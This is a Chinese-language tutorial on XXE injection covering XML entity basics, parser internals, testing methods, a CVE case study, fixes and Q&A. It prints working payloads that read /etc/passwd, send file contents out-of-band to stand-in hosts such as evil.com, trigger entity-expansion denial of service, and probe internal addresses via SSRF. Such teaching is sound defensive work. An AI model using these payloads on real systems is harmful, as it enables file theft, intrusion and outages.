

# XXE注入漏洞概述


<sub>* 首发于京东JSRC《安全小课堂》第105期，稍作修改。</sub>

### 基础知识

XML外部实体注入 *（XML External Entity Injection，以下简称XXE注入）* 是一种针对解析XML文档的应用程序的注入类型攻击。当恶意用户在提交一个精心构造的包含外部实体引用的XML文档给未正确配置的XML解析器处理时，该攻击就会发生。XXE注入可能造成敏感信息泄露、拒绝服务、SSRF、命令执行等危害，现已加入OWASP Top 10豪华套餐。

为了照顾刚入门的小伙伴，我们先花点时间简单解释一下什么是XML实体：

由于XML是由元素节点组成的树结构，元素之间可存在嵌套关系，因此XML解析器会对XML文档中所有文本也进行解析。为了能够在文本中兼容一些特殊字符 *（默认有`<`、`>`、`&`、`'`和`"`）* ，XML允许在DTD中声明实体并在文本中进行引用，如`<`预定义的实体引用是`&lt;`，是不是有些眼熟？著名的`&nbsp;`其实也是HTML预定义的一个实体引用。

XML实体又分为内部实体和外部实体，声明方式如下：

```xml
<!ENTITY name "value">
```

```xml
<!ENTITY name SYSTEM "URI">
<!ENTITY name PUBLIC "PUBLIC_ID" "URI">
```

外部实体声明中，分为`SYSTEM`和`PUBLIC`，前者表示私有资源 *（但不一定是本机）* ，后者表示公共资源。实体声明之后就可以在文本中进行引用了：

```xml
<foo>&xxe;</foo>
```

### 漏洞原理

XXE注入的漏洞原理很简单，其实就是让服务端在解析XML文档时，对声明的外部实体进行引用，实际触发攻击者预定的文件、网络等资源操作，甚至是执行系统命令。

我们用一个常见的PoC来简单分析一下XXE注入漏洞的触发过程：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "http://evil.com/xxedetector">
]>
<foo>&xxe;</foo>
```

这个PoC的预期是被攻击服务器将会向恶意站点上的资源发起HTTP请求。

这里选择Java中比较流行的dom4j来模拟被攻击服务器对该XML文档进行解析，设置其Reader为SAX，这样dom4j将使用JDK的SAXParser作为内部XML解析器：

```java
public Document parse(InputStream in) throws DocumentException {
    return new SAXReader().read(in);
}
```

SAXParser在完成版本检测后，会调用`XMLDocumentFragmentScannerImpl`的`scanDocument()`开始扫描XML文档。文档扫描器完成DTD的扫描后 *（会将所有声明的实体放入`fEntities`变量中）* ，进入`START_ELEMENT`阶段扫描XML元素。

当扫描到文本中的`&`字符时，将状态置为引用 *（`SCANNER_STATE_REFERENCE`）* ，`scanEntityReference()`会去加载引用内容，其中调用`XMLEntityManager`的`startEntity()`，转由`setupCurrentEntity()`创建连接并发起请求，触发XXE注入漏洞：



需要注意的是：

1. 示例中是一般实体引用 *（即`&[name];`）* ，它们会在`START_ELEMENT`阶段求值，如果是参数实体引用 *（即`%[name];`）* ，则会在DTD阶段进行求值
1. 示例中若使用FILE等其他协议，不一定是发起网络请求 *（源代码中定义的方法名称也表示的是获取输入流）*
1. 不同的编程语言和XML解析器，实现方式、执行流程和支持的协议都不一定相同，以上只是简单举例分析，不能一概而论

### 挖掘思路

通过分析XML解析过程和XXE注入漏洞原理我们可以知道：

1. 通用XML解析器一般来说都会参照XML文档规范实现对外部DTD和外部实体引用的解析，一部分解析器还会默认开启对它们的支持配置项
1. XML文档一般不被直接使用，在传入服务端后，要操作XML文档中的数据必定会经过XML解析器解析

而对XXE注入的限制更多依赖于开发人员对XML基础知识的掌握程度、XML解析器安全配置和使用的熟悉程度、安全编码意识等。一旦解析过程对外部实体引用等没有安全限制，不可信XML文档的输入源就有可能被利用进行XXE注入攻击。

因此对于黑盒而言，我们可以在任何可控的XML文档格式数据上进行XXE注入攻击测试，它也不止出现在常见的POST数据体中，也有可能是Query String、上传的XML描述格式文件、将被重组为XML文档的数据等。常规测试流程如下：

1. 测试是否支持实体解析
1. 测试是否支持外部实体解析
1. 测试回显或盲注

而对于白盒而言，常规审计流程如下：

1. 审计是否导入并使用官方或第三方XML解析器
1. 审计是否对XML解析器进行安全配置
1. 审计被解析的XML文档数据是否可控

当然，也可以使用XXEBugFind等自动化分析工具进行检测。

### 利用方式

- 任意文件读取
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [
        <!ENTITY xxe SYSTEM "file:///etc/passwd">
    ]>
    <foo>&xxe;</foo>
    ```
- 基于OOB的任意文件读取 *（盲注）*
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [
        <!ENTITY % xxe SYSTEM "http://evil.com/xxeoobdetector"> %xxe;
    ]>
    <foo/>
    ```
    ```xml
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % def "<!ENTITY &#x25; send SYSTEM 'http://evil.com/?data=%file;'>">
    %def; %send;
    ```
- 拒绝服务
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [
        <!ENTITY dos "dos">
        <!ENTITY dos1 "&dos;&dos;&dos;&dos;&dos;">
        <!ENTITY dos2 "&dos1;&dos1;&dos1;&dos1;&dos1;">
        <!ENTITY xxe "&dos2;&dos2;&dos2;&dos2;&dos2;">
    ]>
    <foo>&xxe;</foo>
    ```
- SSRF
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [
        <!ENTITY xxe SYSTEM "http://192.168.1.1:8080/">
    ]>
    <foo>&xxe;</foo>
    ```

网上还可以搜索到大量已经总结好的PoC，从某云上XXE注入案例的比例来看，出镜率最高的是『基于OOB的任意文件读取』。

值得一提的是，对于这个PoC可能不太了解的小伙伴会有一个疑惑，为什么负责数据发送的参数实体一定要放在外部DTD中声明？

这是由于在内部DTD声明时，参数实体引用不能出现在标记声明中，而外部DTD没有这个限制。也就是说如果把`http://evil.com/?data=%file;`写在PoC本体的内部DTD声明的标签中，解析`%file;`时就会抛出异常。

### 案例分析

和XSS的见框就X类似，XXE的案例大多都是见XML就X。就像在挖掘思路中提到的，XML文档数据的存在不止有HTTP的POST，文件也是XXE经常出没的一个地方。

例如CVE-2018-5758，应用程序中有一个上传文件并共享的功能，在公开已上传的文件之前，应用程序会尝试使用Flash将文件内容展示在页面上。

首先向攻击服务器上传一个DTD文件，内容如下：

```xml
<!ENTITY % all "<!ENTITY send SYSTEM'ftp://our-external-server.com:8080/%file;'>">
%all;
```

然后构造一个『恶意』文件，在其中使用一个外部实体引用来向攻击服务器DTD文件资源发送HTTP请求。通过应用程序的上传文件功能上传『恶意』文件，在点击『查看』按钮时，XXE注入攻击成功：


### 修复方案

1. 使用安全性高的最新版本的XML解析器
1. 在需求允许的情况下，正确配置XML解析器 *（如禁止声明DOCTYPE、禁止或忽略引用外部实体、禁止引用外部DTD或声明内部DTD等）*
1. 确认需求范围，做好白名单限制

### 互动问答

#### 如何甄别一个XML实体攻击漏洞？

对于攻击方而言，想要甄别应用系统是否存在XXE注入漏洞，在前面的挖掘思路部分就已经提到过了，不过为了照顾刚入门的小伙伴，只给出了常规的测试流程，这里我们可以再稍微展开聊一下：

通过分析漏洞原理可以知道，XML解析器对于DTD和实体的解析是很靠前的，而且遇到引用就实时求值，所以XML文件在解析过程中出现异常导致解析失败，XXE注入漏洞也可能被触发。

在测试是否支持实体解析之前，我们可以参考SQL注入测试中的真假测试，利用主动报错 *（构造畸形XML文档）* 等方式来判断应用程序是否支持对XML文档格式数据的解析。在没有回显、报错或异常响应时，使用XXE盲注则会是一种比较省心的测试方案。

有一些Web应用服务器和框架为了兼容不同的请求数据格式，会根据Content-Type等标识来解析数据封装请求参数对象。也许表面上看到的`a=1&b=2`，改写成XML后流程也能正常执行。Who knows，在测试的时候多开一些脑洞，说不定会发现这些隐藏的攻击面。

对于防守方而言，其实大部分的业务需求都不需要使用到XML外部实体，因此在请求数据包中出现XML外部实体声明，就值得进一步对请求方的行为进行审计分析，大致筛选出是否遭受了XXE注入攻击。

#### 利用XXE注入漏洞读取任意文件，在没有回显的情况下，如何读取？

对于XML来说，XXE属于标准语法，所以只需要在实体的声明、引用，以及它的URI属性上做文章。

在回显内容受到限制的情况下，我们很容易想到利用OOB技术进行XXE盲注，通过向攻击服务器产生HTTP、DNS日志等方式将数据带出来。

我们需要将读取文件的实体声明为一个参数实体，然后利用XML解析器的解析顺序，实现将该参数实体引入得到的文件内容附加至请求数据中，需要注意的是参数实体引用位置的限制问题：

```xml
<!ENTITY % a "<!ENTITY &#x25; b SYSTEM 'http://evil.com/%data;'>">
%a; %b;
```

为什么`%b;`外要加一层`%a;`？因为`%data;`需要经过一次额外的解析求值，如果直接在外部实体的URI属性中使用，它将变成一个普通的字符串。

下面这个gist中列出了一部分可以用于XXE盲注和OOB的Payload：

https://gist.github.com/staaldraad/01415b990939494879b4

#### 有哪些好用的工具可以检测XXE注入漏洞？

- [XXE注入Payload在线生成工具](https://buer.haus/xxegen/)
- [生成XXE注入测试文件](https://github.com/BuffaloWill/oxml_xxe/)
- [XXE盲注轻量级服务](https://github.com/staaldraad/xxeserv/)
- [Java应用XXE注入漏洞检测工具](https://github.com/ssexxe/XXEBugFind/)